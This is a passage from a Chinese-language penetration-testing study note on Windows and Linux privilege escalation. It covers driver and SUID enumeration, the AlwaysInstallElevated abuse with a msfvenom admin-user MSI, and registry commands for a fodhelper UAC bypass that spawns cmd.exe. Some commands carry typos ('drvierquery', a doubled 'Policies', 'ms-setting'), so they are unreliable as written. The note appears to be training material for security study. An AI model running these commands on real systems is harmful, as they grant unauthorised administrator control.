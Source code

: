 ```
    drvierquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', PATH
    ```
  - 查找驱动的数字签名(针对发现的驱动模块搜索已知漏洞)
    ```
    Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
    ```
  - Linux系统查看已加载的内核模块信息(针对发现的驱动版本搜索已知漏洞)
    ``` 
    lsmod
    /sbin/modinfo libata
    ```
  - 枚举自动提升权限的二进制文件
    - 在windows系统当中, 检查AlwaysInstallElevated注册表项, 在HKEY_CUEENT_USER或HKEY_LOCAL_MACHINE中AlwaysInstallElevated的值为1(enable), 则任何用户都将以特权账号运行windows安装包(MSI)
    ```
    reg add HKCU\Software\Policies\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
    reg add HKLM\Software\Policies\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    
    msfvenom -p windows/adduser USER=admin PASS=Passw0rd -f msi -o au.msi
    msiexec /quiet /i
    ```
    - Linux系统当中搜索具有SUID权限的文件
      - 启用SUID的程序文件, 将以属主的权限运行, 如果文件属主为root, 则可用于提权
      ```
      find / -perm -u=s -type f 2>/dev/null
      ```
  - 自动枚举
    - 手动枚举耗时, 自动枚举工具可以提高效率
      - windows-privesc-check2.exe --dump -G
      - unix_privesc_check standard > output.txt
      - Linux: linPEAS
      - Windows: winPEAS

## 提权
### Windows
1. UAC绕过
- 允许管理员用户通过静默方式将完整性基本从中高提升到高, 绕过UAC
- 大多数UAC绕过技术都只针对特定版本(Win10 Build 1709)
- fodhelper用于修改操作系统的语言设置, 默认运行于高完整性级别, 无需管理员权限即可修改注册表项, 实现以高完整性级别运行程序
- 使用sigcheck查看fodhelper.exe的manifest
    ```
    sigcheck.exe -a -m c:\windows\system32\fodhelper.exe
    ```
- 使用Process Monitor检查该程序的执行过程
   ```
  1. 先启动procmon.exe, 再运行fodhelper.exe, 过滤筛选fodhelper.exe的执行操作
  2. 增加搜索reg关键字的过滤规则, 只显示fodhelper.exe的注册表相关操作
  3. 增加搜索NAME NOT FOUND报错消息过滤规则, 表示fodhelper在访问不存在的注册表项
  4. 我们无权修改任意注册表项, 因此过滤当前用户可读写的HKEY:\Software\Classes\ms-setting\shell\open\command键值不存在, 手动添加注册表键
  > REG ADD HKCU\Software\Classes\ms-setting\Shell\Open\command
  5. 重启fodhelper程序, 发现其进而寻找..\Shell\Open\Command\DelegateExecute
  6. 添加DelegateExecute为空值
  > REG ADD HKCU\Software\Classes\ms-setting\Shell\Open\Command\ /v DelegateExecute /t REG_SZ
  7. 将"NAME NOT FOUND"筛选项为"SUCCESS", 然后重启fodhelper.exe程序
  8. 由于 DelegateExecute 为空值, 程序访问默认值 Shell\open\command, 将其改为cmd
  > REG ADD HKCU\Software\Classes\ms-setting\Shell\Open\Command /d "cmd.exe" /f
  ```
2. 文件权限漏洞 
  - 以 System运行的服务程序, 若文件系统允许任何人修改, 则可用于提权
  ```